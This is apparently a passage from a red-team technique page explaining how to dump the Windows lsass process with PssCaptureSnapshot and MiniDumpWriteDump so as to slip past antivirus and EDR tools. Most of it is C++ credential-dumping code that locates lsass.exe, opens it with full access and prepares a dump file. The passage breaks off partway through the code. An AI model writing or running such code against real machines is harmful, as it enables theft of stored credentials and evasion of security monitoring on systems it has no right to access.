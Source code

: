 `PssCaptureSnapshot` is another Windows API that lets us dump lsass process using `MiniDumpWriteDump` that may help us sneak past some AVs/EDRs for now.

{% hint style="info" %}
The benefit of using `PssCaptureSnapshot` is that when `MiniDumpWriteDump` is called from your malware, it will not be reading lsass process memory directly and instead will do so from the process's snapshot.
{% endhint %}

Below is the modified dumper code that uses the `PssCaptureSnapshot` to obtain a snapshot of the lsass process. The handle that is returned by the `PssCaptureSnapshot` is then used in the `MiniDumpWriteDump` call instead of the lsass process handle. This is done via the minidump callback:

```cpp
#include "stdafx.h"
#include <windows.h>
#include <DbgHelp.h>
#include <iostream>
#include <TlHelp32.h>
#include <processsnapshot.h>
#pragma comment (lib, "Dbghelp.lib")

using namespace std;

BOOL CALLBACK MyMiniDumpWriteDumpCallback(
    __in     PVOID CallbackParam,
    __in     const PMINIDUMP_CALLBACK_INPUT CallbackInput,
    __inout  PMINIDUMP_CALLBACK_OUTPUT CallbackOutput
)
{
    switch (CallbackInput->CallbackType)
    {
    case 16: // IsProcessSnapshotCallback
        CallbackOutput->Status = S_FALSE;
        break;
    }
    return TRUE;
}

int main() {
    DWORD lsassPID = 0;
    HANDLE lsassHandle = NULL;
    HANDLE outFile = CreateFile(L"c:\\temp\\lsass.dmp", GENERIC_ALL, 0, NULL, CREATE_ALWAYS, FILE_ATTRIBUTE_NORMAL, NULL);
    HANDLE snapshot = CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS, 0);
    PROCESSENTRY32 processEntry = {};
    processEntry.dwSize = sizeof(PROCESSENTRY32);
    LPCWSTR processName = L"";

    if (Process32First(snapshot, &processEntry)) {
        while (_wcsicmp(processName, L"lsass.exe") != 0) {
            Process32Next(snapshot, &processEntry);
            processName = processEntry.szExeFile;
            lsassPID = processEntry.th32ProcessID;
        }
        wcout << "[+] Got lsass.exe PID: " << lsassPID << endl;
    }

    lsassHandle = OpenProcess(PROCESS_ALL_ACCESS, 0, lsassPID);

    HANDLE snapshotHandle = NULL;
```